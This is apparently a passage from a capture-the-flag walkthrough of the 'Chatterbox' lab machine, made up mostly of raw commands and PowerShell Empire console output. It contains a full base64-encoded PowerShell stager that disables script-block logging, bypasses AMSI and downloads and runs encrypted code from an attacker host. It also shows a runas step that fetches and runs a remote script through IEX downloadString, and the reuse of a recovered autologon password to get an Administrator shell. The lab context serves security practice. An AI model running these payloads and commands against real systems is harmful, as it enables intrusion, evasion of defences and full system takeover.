ZQBgAGwAZAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBlAFQAVgBhAEwAVQBlACgAJABOAHUAbABMACwAKABOAGUAVwAtAE8AQgBqAEUAYwBUACAAQwBvAEwATABlAGMAVABpAG8ATgBzAC4ARwBlAG4ARQByAEkAYwAuAEgAYQBTAEgAUwBFAFQAWwBzAHQAcgBJAE4ARwBdACkAKQB9AFsAUgBlAEYAXQAuAEEAUwBzAEUAbQBiAEwAeQAuAEcAZQB0AFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEATAB1AEUAKAAkAE4AVQBMAEwALAAkAFQAcgBVAEUAKQB9ADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAEUAVAAuAFMAZQBSAFYAaQBjAEUAUABPAGkATgBUAE0AQQBuAGEAZwBlAHIAXQA6ADoARQBYAHAAZQBDAFQAMQAwADAAQwBPAE4AVABJAE4AdQBlAD0AMAA7ACQAVwBDAD0ATgBFAFcALQBPAEIASgBlAEMAdAAgAFMAeQBTAFQAZQBtAC4ATgBFAFQALgBXAEUAYgBDAEwAaQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgAZQBhAGQAZQBSAHMALgBBAGQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAQwAuAFAAUgBPAHgAWQA9AFsAUwB5AFMAdABlAE0ALgBOAEUAVAAuAFcARQBCAFIAZQBRAFUARQBzAHQAXQA6ADoARABFAGYAQQB1AGwAVABXAGUAYgBQAHIAbwBYAFkAOwAkAFcAQwAuAFAAUgBvAHgAeQAuAEMAcgBlAEQARQBOAHQASQBBAEwAcwAgAD0AIABbAFMAWQBTAFQAZQBtAC4ATgBFAHQALgBDAFIARQBEAEUATgB0AEkAYQBsAEMAQQBDAEgAZQBdADoAOgBEAEUARgBBAFUAbABUAE4AZQB0AFcAbwByAEsAQwBSAEUAZABFAG4AdABpAGEAbABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZAFMAdABlAG0ALgBUAGUAeABUAC4ARQBOAEMAbwBEAGkAbgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQB0AEIAWQBUAEUAcwAoACcAWgB3ADkATQBWADYAWwAjAHYAbQBVAEAALQAyAGkAQQA3ACoATwA9AE4AUwBdAGsASgBzAHsASAApAEIAaABeACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAeABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA2ADoANAA0ADMAJwA7ACQAdAA9ACcALwBhAGQAbQBpAG4ALwBnAGUAdAAuAHAAaABwACcAOwAkAFcAQwAuAEgARQBBAEQARQBSAHMALgBBAEQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcwBlAHMAcwBpAG8AbgA9AFgAcAA3AEsAWQArAEMAbQB3ADYAYgBNAFUARgBkADcAcAB2AE0AWgBaAEQAeAAzAFAAcABZAD0AIgApADsAJABEAEEAdABhAD0AJABXAEMALgBEAG8AVwBuAGwATwBBAEQARABhAHQAYQAoACQAcwBFAFIAKwAkAFQAKQA7ACQASQB2AD0AJABEAEEAdABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAdABhAFsANAAuAC4AJABkAGEAdABBAC4ATABlAG4ARwBUAGgAXQA7AC0ASgBvAEkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
(Empire: listeners/http) >
```

`sample.shell`

```PowerShell
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAUwBJAG8ATgBUAEEAYgBsAGUALgBQAFMAVgBlAFIAcwBJAG8AbgAuAE0AYQBqAE8AcgAgAC0ARwBFACAAMwApAHsAJABHAFAARgA9AFsAcgBFAGYAXQAuAEEAcwBTAEUAbQBiAEwAWQAuAEcAZQB0AFQAeQBQAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBVAHQAaQBsAHMAJwApAC4AIgBHAGUAVABGAEkAZQBgAGwAZAAiACgAJwBjAGEAYwBoAGUAZABHAHIAbwB1AHAAUABvAGwAaQBjAHkAUwBlAHQAdABpAG4AZwBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApADsASQBGACgAJABHAFAARgApAHsAJABHAFAAQwA9ACQARwBQAEYALgBHAEUAdABWAGEAbABVAGUAKAAkAG4AdQBsAGwAKQA7AEkARgAoACQARwBQAEMAWwAnAFMAYwByAGkAcAB0AEIAJwArACcAbABvAGMAawBMAG8AZwBnAGkAbgBnACcAXQApAHsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCACcAKwAnAGwAbwBjAGsATABvAGcAZwBpAG4AZwAnAF0APQAwADsAJABHAFAAQwBbACcAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAFsAJwBFAG4AYQBiAGwAZQBTAGMAcgBpAHAAdABCAGwAbwBjAGsASQBuAHYAbwBjAGEAdABpAG8AbgBMAG8AZwBnAGkAbgBnACcAXQA9ADAAfQAkAFYAQQBsAD0AWwBDAG8AbABMAEUAYwB0AEkATwBuAHMALgBHAEUATgBFAHIAaQBjAC4ARABpAGMAdABpAG8AbgBhAFIAeQBbAFMAdABSAEkAbgBnACwAUwBZAFMAdABlAG0ALgBPAEIASgBFAGMAdABdAF0AOgA6AG4ARQBXACgAKQA7ACQAdgBBAGwALgBBAGQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwAsADAAKQA7ACQAdgBBAGwALgBBAEQARAAoACcARQBuAGEAYgBsAGUAUwBjAHIAaQBwAHQAQgBsAG8AYwBrAEkAbgB2AG8AYwBhAHQAaQBvAG4ATABvAGcAZwBpAG4AZwAnACwAMAApADsAJABHAFAAQwBbACcASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABQAG8AbABpAGMAaQBlAHMAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABQAG8AdwBlAHIAUwBoAGUAbABsAFwAUwBjAHIAaQBwAHQAQgAnACsAJwBsAG8AYwBrAEwAbwBnAGcAaQBuAGcAJwBdAD0AJABWAGEAbAB9AEUAbABTAEUAewBbAFMAQwBSAGkAcAB0AEIAbABvAEMASwBdAC4AIgBHAGUAVABGAEkAZQBgAGwAZAAiACgAJwBzAGkAZwBuAGEAdAB1AHIAZQBzACcALAAnAE4AJwArACcAbwBuAFAAdQBiAGwAaQBjACwAUwB0AGEAdABpAGMAJwApAC4AUwBlAFQAVgBhAEwAVQBlACgAJABOAHUAbABMACwAKABOAGUAVwAtAE8AQgBqAEUAYwBUACAAQwBvAEwATABlAGMAVABpAG8ATgBzAC4ARwBlAG4ARQByAEkAYwAuAEgAYQBTAEgAUwBFAFQAWwBzAHQAcgBJAE4ARwBdACkAKQB9AFsAUgBlAEYAXQAuAEEAUwBzAEUAbQBiAEwAeQAuAEcAZQB0AFQAWQBwAGUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpAFUAdABpAGwAcwAnACkAfAA/AHsAJABfAH0AfAAlAHsAJABfAC4ARwBFAFQARgBpAGUAbABkACgAJwBhAG0AcwBpAEkAbgBpAHQARgBhAGkAbABlAGQAJwAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkALgBTAGUAVABWAGEATAB1AEUAKAAkAE4AVQBMAEwALAAkAFQAcgBVAEUAKQB9ADsAfQA7AFsAUwB5AHMAdABlAG0ALgBOAEUAVAAuAFMAZQBSAFYAaQBjAEUAUABPAGkATgBUAE0AQQBuAGEAZwBlAHIAXQA6ADoARQBYAHAAZQBDAFQAMQAwADAAQwBPAE4AVABJAE4AdQBlAD0AMAA7ACQAVwBDAD0ATgBFAFcALQBPAEIASgBlAEMAdAAgAFMAeQBTAFQAZQBtAC4ATgBFAFQALgBXAEUAYgBDAEwAaQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAGkAbgBkAG8AdwBzACAATgBUACAANgAuADEAOwAgAFcATwBXADYANAA7ACAAVAByAGkAZABlAG4AdAAvADcALgAwADsAIAByAHYAOgAxADEALgAwACkAIABsAGkAawBlACAARwBlAGMAawBvACcAOwAkAHcAQwAuAEgAZQBhAGQAZQBSAHMALgBBAGQAZAAoACcAVQBzAGUAcgAtAEEAZwBlAG4AdAAnACwAJAB1ACkAOwAkAHcAQwAuAFAAUgBPAHgAWQA9AFsAUwB5AFMAdABlAE0ALgBOAEUAVAAuAFcARQBCAFIAZQBRAFUARQBzAHQAXQA6ADoARABFAGYAQQB1AGwAVABXAGUAYgBQAHIAbwBYAFkAOwAkAFcAQwAuAFAAUgBvAHgAeQAuAEMAcgBlAEQARQBOAHQASQBBAEwAcwAgAD0AIABbAFMAWQBTAFQAZQBtAC4ATgBFAHQALgBDAFIARQBEAEUATgB0AEkAYQBsAEMAQQBDAEgAZQBdADoAOgBEAEUARgBBAFUAbABUAE4AZQB0AFcAbwByAEsAQwBSAEUAZABFAG4AdABpAGEAbABzADsAJABTAGMAcgBpAHAAdAA6AFAAcgBvAHgAeQAgAD0AIAAkAHcAYwAuAFAAcgBvAHgAeQA7ACQASwA9AFsAUwBZAFMAdABlAG0ALgBUAGUAeABUAC4ARQBOAEMAbwBEAGkAbgBHAF0AOgA6AEEAUwBDAEkASQAuAEcAZQB0AEIAWQBUAEUAcwAoACcAWgB3ADkATQBWADYAWwAjAHYAbQBVAEAALQAyAGkAQQA3ACoATwA9AE4AUwBdAGsASgBzAHsASAApAEIAaABeACcAKQA7ACQAUgA9AHsAJABEACwAJABLAD0AJABBAFIARwBTADsAJABTAD0AMAAuAC4AMgA1ADUAOwAwAC4ALgAyADUANQB8ACUAewAkAEoAPQAoACQASgArACQAUwBbACQAXwBdACsAJABLAFsAJABfACUAJABLAC4AQwBPAHUAbgB0AF0AKQAlADIANQA2ADsAJABTAFsAJABfAF0ALAAkAFMAWwAkAEoAXQA9ACQAUwBbACQASgBdACwAJABTAFsAJABfAF0AfQA7ACQARAB8ACUAewAkAEkAPQAoACQASQArADEAKQAlADIANQA2ADsAJABIAD0AKAAkAEgAKwAkAFMAWwAkAEkAXQApACUAMgA1ADYAOwAkAFMAWwAkAEkAXQAsACQAUwBbACQASABdAD0AJABTAFsAJABIAF0ALAAkAFMAWwAkAEkAXQA7ACQAXwAtAEIAeABPAFIAJABTAFsAKAAkAFMAWwAkAEkAXQArACQAUwBbACQASABdACkAJQAyADUANgBdAH0AfQA7ACQAcwBlAHIAPQAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA2ADoANAA0ADMAJwA7ACQAdAA9ACcALwBhAGQAbQBpAG4ALwBnAGUAdAAuAHAAaABwACcAOwAkAFcAQwAuAEgARQBBAEQARQBSAHMALgBBAEQAZAAoACIAQwBvAG8AawBpAGUAIgAsACIAcwBlAHMAcwBpAG8AbgA9AFgAcAA3AEsAWQArAEMAbQB3ADYAYgBNAFUARgBkADcAcAB2AE0AWgBaAEQAeAAzAFAAcABZAD0AIgApADsAJABEAEEAdABhAD0AJABXAEMALgBEAG8AVwBuAGwATwBBAEQARABhAHQAYQAoACQAcwBFAFIAKwAkAFQAKQA7ACQASQB2AD0AJABEAEEAdABBAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAdABhAFsANAAuAC4AJABkAGEAdABBAC4ATABlAG4ARwBUAGgAXQA7AC0ASgBvAEkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABkAGEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

```sh
root@kali:~/chatterbox/www# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.74 - - [20/Jun/2018 19:28:16] "GET /sample.shell HTTP/1.1" 200 -
```

```sh
root@kali:~/chatterbox/www# python 36025.py
---->{P00F}!
root@kali:~/chatterbox/www#
```

```sh
(Empire: listeners/http) > [*] Sending POWERSHELL stager (stage 1) to 10.10.10.74
[*] New agent FWE8PBDM checked in
[+] Initial agent FWE8PBDM from 10.10.10.74 now active (Slack)
[*] Sending agent (stage 2) to FWE8PBDM at 10.10.10.74

(Empire: listeners/http) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 FWE8PBDM ps 10.10.10.74     CHATTERBOX        CHATTERBOX\Alfred       powershell         42328  5/0.0    2018-06-20 19:28:46

(Empire: agents) >
(Empire: agents) > interact FWE8PBDM
(Empire: FWE8PBDM) > searchmodule powerup

 powershell/privesc/powerup/find_dllhijack

	Finds generic .DLL hijacking opportunities.


 powershell/privesc/powerup/service_useradd

	Modifies a target service to create a local user and add it to the
	local administrators.


 powershell/privesc/powerup/service_exe_restore

	Restore a backed up service binary.


 powershell/privesc/powerup/service_exe_stager

	Backs up a service's binary and replaces the original with a binary
	that launches a stager.bat.


 powershell/privesc/powerup/service_exe_useradd

	Backs up a service's binary and replaces the original with a binary
	that creates/adds a local administrator.


 powershell/privesc/powerup/allchecks

	Runs all current checks for Windows privesc vectors.


 powershell/privesc/powerup/service_stager

	Modifies a target service to execute an Empire stager.


 powershell/privesc/powerup/write_dllhijacker

	Writes out a hijackable .dll to the specified path along with a
	stager.bat that's called by the .dll. wlbsctrl.dll works well for
	Windows 7. The machine will need to be restarted for the privesc to
	work.


(Empire: FWE8PBDM) > usemodule privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > info

              Name: Invoke-AllChecks
            Module: powershell/privesc/powerup/allchecks
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @harmj0y

Description:
  Runs all current checks for Windows privesc vectors.

Comments:
  https://github.com/PowerShellEmpire/PowerTools/tree/master/P
  owerUp

Options:

  Name  Required    Value                     Description
  ----  --------    -------                   -----------
  Agent True        FWE8PBDM                  Agent to run module on.

(Empire: powershell/privesc/powerup/allchecks) > execute
[*] Tasked FWE8PBDM to run TASK_CMD_JOB
[*] Agent FWE8PBDM tasked with task ID 1
[*] Tasked agent FWE8PBDM to run module powershell/privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > [*] Agent FWE8PBDM returned results.
Job started: 8XD2MV
[*] Valid results returned by 10.10.10.74

(Empire: powershell/privesc/powerup/allchecks) > back
(Empire: FWE8PBDM) > info

[*] Agent info:

	nonce           	9669959849320873
	jitter          	0.0
	servers         	None
	internal_ip     	10.10.10.74
	working_hours
	session_key     	^}h0>Sdl[|2j&VTro-v]fatQ+ip~q<MO
	children        	None
	checkin_time    	2018-06-20 19:28:22
	hostname        	CHATTERBOX
	id              	3
	delay           	5
	username        	CHATTERBOX\Alfred
	kill_date
	parent          	None
	process_name    	powershell
	listener        	http
	process_id      	42328
	profile         	/admin/get.php,/news.php,/login/process.php|Mozilla/5.0 (Windows NT
                                6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
	os_details      	Microsoft Windows 7 Professional
	lost_limit      	60
	taskings
	name            	FWE8PBDM
	language        	powershell
	external_ip     	10.10.10.74
	session_id      	FWE8PBDM
	lastseen_time   	2018-06-20 19:31:54
	language_version	2
	high_integrity  	0

(Empire: FWE8PBDM) > back
(Empire: agents) > interact FWE8PBDM
(Empire: FWE8PBDM) > info

[*] Agent info:

	nonce           	9669959849320873
	jitter          	0.0
	servers         	None
	internal_ip     	10.10.10.74
	working_hours
	session_key     	^}h0>Sdl[|2j&VTro-v]fatQ+ip~q<MO
	children        	None
	checkin_time    	2018-06-20 19:28:22
	hostname        	CHATTERBOX
	id              	3
	delay           	5
	username        	CHATTERBOX\Alfred
	kill_date
	parent          	None
	process_name    	powershell
	listener        	http
	process_id      	42328
	profile         	/admin/get.php,/news.php,/login/process.php|Mozilla/5.0 (Windows NT
                                6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
	os_details      	Microsoft Windows 7 Professional
	lost_limit      	60
	taskings
	name            	FWE8PBDM
	language        	powershell
	external_ip     	10.10.10.74
	session_id      	FWE8PBDM
	lastseen_time   	2018-06-20 19:32:24
	language_version	2
	high_integrity  	0

(Empire: FWE8PBDM) > [*] Agent FWE8PBDM returned results.

[*] Running Invoke-AllChecks


[*] Checking if user is in a local group with administrative privileges...


[*] Checking for unquoted service paths...


[*] Checking service executable and argument permissions...


[*] Checking service permissions...


[*] Checking %PATH% for potentially hijackable DLL locations...


[*] Checking for AlwaysInstallElevated registry key...


[*] Checking for Autologon credentials in registry...


DefaultDomainName    :
DefaultUserName      : Alfred
DefaultPassword      : Welcome1!
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :


[*] Checking for modifidable registry autoruns and configs...


[*] Checking for modifiable schtask files/configs...


[*] Checking for unattended install files...


UnattendPath : C:\Windows\Panther\Unattend.xml


[*] Checking for encrypted web.config strings...


[*] Checking for encrypted application pool and virtual directory passwords...


[*] Checking for plaintext passwords in McAfee SiteList.xml files....


[*] Checking for cached Group Policy Preferences .xml files....


Invoke-AllChecks completed!

[*] Valid results returned by 10.10.10.74

(Empire: FWE8PBDM) >
(Empire: FWE8PBDM) > searchmodule runas

 powershell/privesc/ask

	Leverages Start-Process' -Verb runAs option inside a YES-Required loop
	to prompt the user for a high integrity context before running the
	agent code. UAC will report Powershell is requesting Administrator
	privileges. Because this does not use the BypassUAC DLLs, it should
	not trigger any AV alerts.


 powershell/management/runas

	Runas knockoff. Will bypass GPO path restrictions.


(Empire: FWE8PBDM) > usemodule management/runas
(Empire: powershell/management/runas) > info

              Name: Invoke-RunAs
            Module: powershell/management/runas
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  rvrsh3ll (@424f424f)

Description:
  Runas knockoff. Will bypass GPO path restrictions.

Comments:
  https://github.com/rvrsh3ll/Misc-Powershell-
  Scripts/blob/master/RunAs.ps1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  UserName   False                                 Username to run the command as.
  CredID     False                                 CredID from the store to use.
  Domain     False                                 Optional domain.
  Cmd        True        notepad.exe               Command to run.
  Arguments  False                                 Optional arguments for the supplied
                                                   binary.
  ShowWindow False                                 Switch. Show the window for the created
                                                   process instead of hiding it.
  Password   False                                 Password for the specified username.
  Agent      True        FWE8PBDM                  Agent to run module on.

(Empire: powershell/management/runas) > set UserName Administrator
(Empire: powershell/management/runas) > set Domain CHATTERBOX
(Empire: powershell/management/runas) > set Password Welcome1!
(Empire: powershell/management/runas) > set Cmd Powershell
(Empire: powershell/management/runas) > set Arguments "IEX(New-Object Net.webClient).downloadString('http://10.10.14.16/sample.shell')"
(Empire: powershell/management/runas) > execute
[*] Tasked FWE8PBDM to run TASK_CMD_WAIT
[*] Agent FWE8PBDM tasked with task ID 2
[*] Tasked agent FWE8PBDM to run module powershell/management/runas
(Empire: powershell/management/runas) > [*] Agent FWE8PBDM returned results.

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
      0       1      220         80     2     0.00  39632 powershell


[*] Valid results returned by 10.10.10.74
[*] Sending POWERSHELL stager (stage 1) to 10.10.10.74
[*] New agent HU8D9RWF checked in
[+] Initial agent HU8D9RWF from 10.10.10.74 now active (Slack)
[*] Sending agent (stage 2) to HU8D9RWF at 10.10.10.74

(Empire: powershell/management/runas) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 FWE8PBDM ps 10.10.10.74     CHATTERBOX        CHATTERBOX\Alfred       powershell         42328  5/0.0    2018-06-20 19:36:01
 HU8D9RWF ps 10.10.10.74     CHATTERBOX        *CHATTERBOX\Administrat powershell         41704  5/0.0    2018-06-20 19:36:00

(Empire: agents) >
(Empire: agents) > interact HU8D9RWF
(Empire: HU8D9RWF) > ?

Agent Commands
==============
agents            Jump to the agents menu.
back              Go back a menu.
bypassuac         Runs BypassUAC, spawning a new high-integrity agent for a listener. Ex. spawn <listener>
clear             Clear out agent tasking.
creds             Display/return credentials from the database.
download          Task an agent to download a file.
exit              Task agent to exit.
help              Displays the help menu or syntax for particular commands.
info              Display information about this agent
injectshellcode   Inject listener shellcode into a remote process. Ex. injectshellcode <meter_listener> <pid>
jobs              Return jobs or kill a running job.
kill              Task an agent to kill a particular process name or ID.
killdate          Get or set an agent's killdate (01/01/2016).
list              Lists all active agents (or listeners).
listeners         Jump to the listeners menu.
lostlimit         Task an agent to change the limit on lost agent detection
main              Go back to the main menu.
mimikatz          Runs Invoke-Mimikatz on the client.
psinject          Inject a launcher into a remote process. Ex. psinject <listener> <pid/process_name>
pth               Executes PTH for a CredID through Mimikatz.
rename            Rename the agent.
resource          Read and execute a list of Empire commands from a file.
revtoself         Uses credentials/tokens to revert token privileges.
sc                Takes a screenshot, default is PNG. Giving a ratio means using JPEG. Ex. sc [1-100]
scriptcmd         Execute a function in the currently imported PowerShell script.
scriptimport      Imports a PowerShell script and keeps it in memory in the agent.
searchmodule      Search Empire module names/descriptions.
shell             Task an agent to use a shell command.
shinject          Inject non-meterpreter listener shellcode into a remote process. Ex. shinject <listener> <pid>
sleep             Task an agent to 'sleep interval [jitter]'
spawn             Spawns a new Empire agent for the given listener name. Ex. spawn <listener>
steal_token       Uses credentials/tokens to impersonate a token for a given process ID.
sysinfo           Task an agent to get system information.
updatecomms       Dynamically update the agent comms to another listener
updateprofile     Update an agent connection profile.
upload            Task an agent to upload a file.
usemodule         Use an Empire PowerShell module.
workinghours      Get or set an agent's working hours (9:00-17:00).

(Empire: HU8D9RWF) > shell
(Empire: HU8D9RWF) > pwd
[*] Tasked HU8D9RWF to run TASK_SHELL
[*] Agent HU8D9RWF tasked with task ID 1
(Empire: HU8D9RWF) > [*] Agent HU8D9RWF returned results.
Path
----
C:\Windows\system32
[*] Valid results returned by 10.10.10.74

(Empire: HU8D9RWF) >
(Empire: HU8D9RWF) > help agentcmds

[*] Available opsec-safe agent commands:

     ls, dir, rm, del, cp, copy, pwd, cat, cd, mkdir,
     rmdir, mv, move, ipconfig, ifconfig, route,
     reboot, restart, shutdown, ps, tasklist, getpid,
     whoami, getuid, hostname

(Empire: HU8D9RWF) > cat C:\Users\Administrator\Desktop\root.txt
[*] Tasked HU8D9RWF to run TASK_SHELL
[*] Agent HU8D9RWF tasked with task ID 2
(Empire: HU8D9RWF) > [*] Agent HU8D9RWF returned results.
a673d1b1fa95c276c5ef2aa13d9dcc7c
[*] Valid results returned by 10.10.10.74

(Empire: HU8D9RWF) >
```